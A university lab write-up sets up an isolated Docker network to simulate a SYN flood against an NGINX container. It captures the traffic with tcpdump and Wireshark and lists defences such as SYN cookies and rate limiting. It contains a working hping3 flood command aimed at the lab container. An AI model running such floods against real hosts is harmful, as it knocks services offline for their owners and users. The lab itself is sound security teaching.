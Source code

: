 # SYN Flood Attack Simulation with Docker: Lab Setup and Traffic Analysis

**Hands-on experience with SYN flood attacks and network traffic analysis**  
*Erwin Bruno - July 26, 2026*  
*Secure Network Engineering (CYBR-508-02P)*

## Objective

This lab provides hands-on experience with SYN flood attacks, a common form of Denial of Service (DoS). It guides you through building a Docker-based testing environment and developing skills in network traffic analysis using tcpdump and Wireshark.

## Prerequisites

- Docker Desktop installed and running
- Wireshark installed on host system
- Basic understanding of TCP/IP protocols
- Command line familiarity (bash/terminal)
- Administrative privileges for Docker operations
- Windows/Linux/macOS host system

## Lab Setup

### Create Docker Network
Create a custom bridge network for isolated testing:
```bash
docker network create --driver bridge syn_flood_network
```

### Deploy Target Container
Create NGINX target with resource constraints:
```bash
docker run -dit --name target --network syn_flood_network --cpus="0.2" --memory="256m" --cap-add=NET_ADMIN nginx
```

### Configure Target Environment
Enter the target container:
```bash
docker exec -it target bash
```

Update and install required tools:
```bash
apt update && apt install iproute2 -y
```

Apply bandwidth throttling:
```bash
tc qdisc add dev eth0 root tbf rate 1mbit burst 32kbit latency 400ms
```

Prepare capture directory and install tcpdump:
```bash
mkdir -p /mnt/data
apt update && apt install tcpdump -y
```

### Deploy Attacker Container
Create and enter the attacker container:
```bash
docker run -it --name attacker --network syn_flood_network ubuntu /bin/bash
```

Install attack tools:
```bash
apt update && apt install hping3 -y
```

## Attack Execution

### Launch SYN Flood Attack
From inside the attacker container, execute the flood:
```bash
hping3 --flood --syn --destport 80 target
```

### Packet Capture (Target Container)
In a separate terminal, capture SYN packets on target:
```bash
tcpdump -i eth0 'tcp[tcpflags] == tcp-syn' and not port 22 -w /mnt/data/syn_flood_capture.pcap
```

Stop capture with `Ctrl+C` when sufficient data is collected.

### Traffic Analysis
Copy PCAP file to host system (replace `{Username}` with actual username):
```bash
docker cp target:/mnt/data/syn_flood_capture.pcap C:\Users\{Username}\Downloads
```

Open the captured file with Wireshark for detailed analysis.

## Cleanup

Remove all lab components:
```bash
docker container stop target attacker
docker container rm target attacker
docker network rm syn_flood_network
```

## Results and Observations

The SYN flood attack successfully demonstrated service disruption through connection table exhaustion. Wireshark analysis revealed continuous SYN packet transmission with no corresponding SYN-ACK responses, confirming the attack's effectiveness.

### Key Findings
* Connection attempts from attacker were not properly completed
* TCP three-way handshake process was disrupted
* Server resources were consumed managing half-open connections
* Legitimate traffic would be impacted due to connection table exhaustion
* Continuous SYN packets observed without proper connection establishment

## Real-World Implications

### Network Infrastructure Threats
SYN flood attacks pose significant threats because they require minimal attacker resources while overwhelming servers with limited connection handling capacity. They are difficult to distinguish from legitimate high-traffic periods initially.

### Organizations at Risk
* Small businesses with limited server resources
* IoT device manufacturers with minimal security implementations
* Legacy systems without modern TCP stack protections
* Services without proper rate limiting or DDoS protection

### Business Impact
Successful SYN flood attacks can result in service unavailability during peak business hours, revenue loss for e-commerce platforms, customer dissatisfaction and reputation damage, and increased operational costs for incident response.

## Defense Strategies

### Technical Mitigations
* **SYN Cookies**: Enable SYN cookie functionality to handle connection state without memory allocation
* **Rate Limiting**: Implement connection rate limits per source IP
* **Timeout Reduction**: Decrease SYN_RECV timeout values to free resources faster
* **iptables Rules**: Configure firewall rules to detect and block flood patterns

### Infrastructure Solutions
* **Load Balancers**: Deploy reverse proxies with DDoS protection capabilities
* **Cloud Security**: Utilize cloud-based DDoS mitigation services
* **Network Monitoring**: Implement real-time traffic analysis and alerting
* **Resource Scaling**: Design systems with auto-scaling capabilities

## Educational Value

This lab demonstrates:
* **Attack Methodology**: Understanding how SYN flood attacks exploit TCP protocol weaknesses
* **Traffic Analysis**: Developing skills in packet capture and analysis using industry-standard tools
* **Containerization**: Utilizing Docker for safe, isolated security testing environments
* **Network Security**: Recognizing DoS attack patterns and their impact on network infrastructure
* **Defensive Thinking**: Understanding attack vectors to implement appropriate countermeasures

## Disclaimer

⚠️ **For Educational Purposes Only**  
This lab is designed for educational and authorized testing environments only. SYN flood attacks are illegal when performed against systems without explicit permission. Always ensure you have proper authorization before conducting any security testing. Use this knowledge responsibly to improve defensive security postures.
